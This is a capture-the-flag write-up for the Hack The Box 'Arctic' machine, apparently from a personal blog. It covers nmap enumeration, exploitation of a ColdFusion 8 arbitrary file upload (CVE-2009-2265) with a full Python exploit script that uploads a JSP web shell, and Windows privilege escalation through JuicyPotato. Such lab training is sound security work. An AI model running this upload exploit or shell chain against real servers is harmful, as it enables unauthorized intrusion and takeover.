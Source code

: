 Title: HTB Arctic box writeup
Tags: oscp, htb
Summary: Per ColdFusion aspera ad another empty outdated box
Date: 2020-10-13 21:50
Status: published

# Enumeration
Looks like we've got some ColdFusion there:
<pre>
    Nmap 7.80 scan initiated Thu Oct  8 22:46:43 2020 as: nmap -sS -p- -oA enum/nmap-ss-all 10.10.10.11
    Nmap scan report for arctic.htb (10.10.10.11)
    Host is up (0.062s latency).
    Not shown: 65532 filtered ports
    PORT      STATE SERVICE
    135/tcp   open  msrpc
    8500/tcp  open  fmtp
    49154/tcp open  unknown
    Nmap done at Thu Oct  8 22:49:58 2020 -- 1 IP address (1 host up) scanned in 194.82 seconds
</pre>

Scripted scan:
<pre>
    Nmap 7.80 scan initiated Thu Oct  8 22:51:06 2020 as: nmap -sC -A -T4 -p135,8500,49154 -oA enum/nmap-scAT4-open 10.10.10.11
    Nmap scan report for arctic.htb (10.10.10.11)
    Host is up (0.056s latency).
    PORT      STATE SERVICE VERSION
    135/tcp   open  msrpc   Microsoft Windows RPC
    8500/tcp  open  fmtp?
    49154/tcp open  msrpc   Microsoft Windows RPC
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Device type: phone|general purpose|specialized
    Running (JUST GUESSING): Microsoft Windows Phone|2008|7|8.1|Vista|2012 (92%)
    OS CPE: cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
    Aggressive OS guesses: Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    TRACEROUTE (using port 135/tcp)
    HOP RTT      ADDRESS
    1   56.97 ms 10.10.14.1
    2   59.28 ms arctic.htb (10.10.10.11)
    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done at Thu Oct  8 22:53:40 2020 -- 1 IP address (1 host up) scanned in 154.11 seconds
</pre>
Extensions and the error tend to prove hypothesis about ColdFusion instance:

![ColdFusion err](/cstatic/htb-arctic/appcfm-error.png)

# Exploitation
Coldfusion seems to be a bit laggy and this is annoying since it slows down the
whole process. It turned out that this deployment is vulnerable to ancient
CVE-2009-2265 and I managed to find some custom written python script to exploit
that instead of using metasploit. It was found somewhere on the HTB forums and
I just tuned it up a bit so that it use the name of the local file for uploaded one.
Here's the script:
```python
#!/usr/bin/python
# Exploit Title: ColdFusion 8.0.1 - Arbitrary File Upload
# Date: 2017-10-16
# Exploit Author: Alexander Reid
# Vendor Homepage: http://www.adobe.com/products/ColdFusion-family.html
# Version: ColdFusion 8.0.1
# CVE: CVE-2009-2265 
# 
# Description: 
# A standalone proof of concept that demonstrates an arbitrary file upload vulnerability in ColdFusion 8.0.1
# Uploads the specified jsp file to the remote server.
#
# Usage: ./exploit.py <target ip> <target port> [/path/to/ColdFusion] </path/to/payload.jsp>
# Example: ./exploit.py 127.0.0.1 8500 /home/arrexel/shell.jsp
import requests, sys, os

try:
    ip = sys.argv[1]
    port = sys.argv[2]
    if len(sys.argv) == 5:
        path = sys.argv[3]
        filename = os.path.basename(sys.argv[4])
        with open(sys.argv[4], 'r') as payload:
            body=payload.read()
    else:
        path = ""
        filename = os.path.basename(sys.argv[3])
        with open(sys.argv[3], 'r') as payload:
            body=payload.read()
except IndexError:
    print 'Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/ColdFusion] </path/to/payload.jsp>'
    print 'Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp'
    sys.exit(-1)

basepath = "http://" + ip + ":" + port + path

print 'Sending payload...'
print 'Base filename is {}'.format(filename)

try:
    req = requests.post(
        basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/{}%00".format(filename),
        files={ 'newfile': ('sploit.txt', body, 'application/x-java-archive' )})
    print 'Base path is {}'.format(basepath)
    if req.status_code == 200:
        print 'Successfully uploaded payload!\nFind it at {}/userfiles/file/{}'.format(basepath, filename)
    else:
        print 'Failed to upload payload... {} {}'.format(str(req.status_code), req.reason)
except requests.Timeout:
    print 'Failed to upload payload... Request timed out'
```

The main caveat is that the uploaded JSP had to be less that 65535 bytes long,
otherwise it won't compile on the server and we will get a translation error
back while trying to run such a servlet.

So I uploaded 
[this shell](https://github.com/SecurityRiskAdvisors/cmd.jsp/blob/master/cmd.jsp),
hosted accompanying UI script on my machine and got web shell running:

![web shell](/cstatic/htb-arctic/webshell.png)

Obviously it's trivial to acquire an interactive shell from this, turned out
that ColdFusion has been running as some local user:

![user shell](/cstati/htb-arctic/user-shell.png)

# Privilege escalation
So I decided to "try harder" with PE here, since I just watched tib3rius' course
about this on udemy. In general it seems that HTB boxes aren't much about PE
because they're pretty empty so PE relies on known exploits usually. This looks
exactly like such a case. The journey started with `winPEAS.bat` and some manual
enumeration and this resulted in nothing - the box is pretty empty. Next step
was to try some exploits suggested by `wes.py` and none of them worked well. One
was looking good, but failed to escalate privileges. I then remembered MS16-032
and tried it, but still vainly - for reason unknown it didn't work either, I
just wasn't able to catch a shell despite the fact that exploit reported success.
The only thing that worked was the JuicyPotato - flawlessly spawned SYSTEM shell:

![root shell](/cstatic/htb-arctic/root-shell.png)
